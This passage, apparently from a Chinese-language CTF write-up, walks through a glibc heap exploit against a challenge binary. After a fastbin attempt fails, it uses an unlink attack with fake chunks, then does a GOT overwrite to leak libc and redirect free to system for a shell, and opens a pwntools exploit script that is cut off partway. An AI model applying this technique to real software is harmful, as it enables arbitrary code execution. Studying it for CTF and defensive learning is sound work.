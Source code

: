 double_free之后UAF，将fd改为0x602008。我满怀期待地执行下一步，gdb却给我来了当头一棒——``malloc(): memory corruption (fast)``

```C
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
  errstr = "malloc(): memory corruption (fast)";
errout:
  malloc_printerr (check_action, errstr, chunk2mem (victim), av);
  return NULL;
}
```

检查通不过：目的地址对应的size必须正确。

看来这条路是走不通了。看下一个思路：unlink。

如果是使用unlink的话，就无需考虑是否存在tcache了。如果有tcache则分配一个large bins大小的chunk让它被释放时不进tcache就好了。

记得在之前的how2heap分析中，对于unlink是直接将后面chunk的prev_inuse置为0的。这里我们不能直接这样做，而是需要利用未被清空的指针。

Step 1: 分配两个非tcache chunk并释放。释放之后，这两个chunk会被合并入top chunk中，绕过double free的检测。
Step 2: 分配一个大chunk使得这个chunk能够包含之前的两个chunk且还要多出一些空间。这一步是为了编辑这两个原先的chunk做准备的。这个大chunk和Step 1中第一个分配的chunk的地址应该是相同的。
Step 3: 在大chunk中构造数据，在原chunk_1前后构造假chunk使free能够通过检查。
Step 4: 释放原chunk_1。

**注意：在大chunk中需要在原chunk_1前后均伪造，这是为了通过unlink和_int_free的检查。在后方构造chunk主要构造其prev_inuse位为1以绕过line 4316 (glibc 2.31)的检查，在前方构造chunk是为了绕过unlink的检查，在how2heap中有分析，如有疑问请移步我之前写的how2heap分析文章，这里不再赘述。**

```C
if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```

这样，释放chunk_1就能够成功，chunk_0的地址也会被修改到bss段上（0x6020C8）。我们现在可以通过chunk_0随意修改bss段中保存有chunk信息的部分了。之后的操作就是水到渠成：

Step 5: 将chunk_1的地址改为free的got表地址，修改为puts的plt地址。
Step 6: 将chunk_2的地址改为got表中除前两个函数外其他任意一个函数的地址，然后调用free输出地址。利用此地址计算libc的加载地址。
Step 7: 将计算得到的system地址写到free的got表地址中，向chunk_3写入'/bin/sh'（或者找到libc中本来就有的'/bin/sh'字符串地址，将其写到chunk_3的位置上）。
Step 8: 释放chunk_3，getshell。

payload: （本payload在Kali上测试成功，libc版本：Debian GLIBC 2.33-6，2022/4/5最新更新版本）

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# libc = ELF('./ctflibc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.33.so')
libc_atoi_addr = libc.symbols['atoi']
libc_sys_addr = libc.symbols['system']
libc_write_addr = libc.symbols['write']

print(hex(libc_atoi_addr))
print(hex(libc_sys_addr))

chunk_addr_bss = 0x6020E0

elf = ELF('./pwn')
io = process('./pwn')
# io = remote('111.200.241.244', 54585)

def create(size, index, content):
	io.sendlineafter(b'$ ', b'1')
	io.sendlineafter(b'Input size\n', str(size).encode())
	io.sendlineafter(b'Input cun\n', str(index).encode())
	io.sendafter(b'Input content\n', content)
```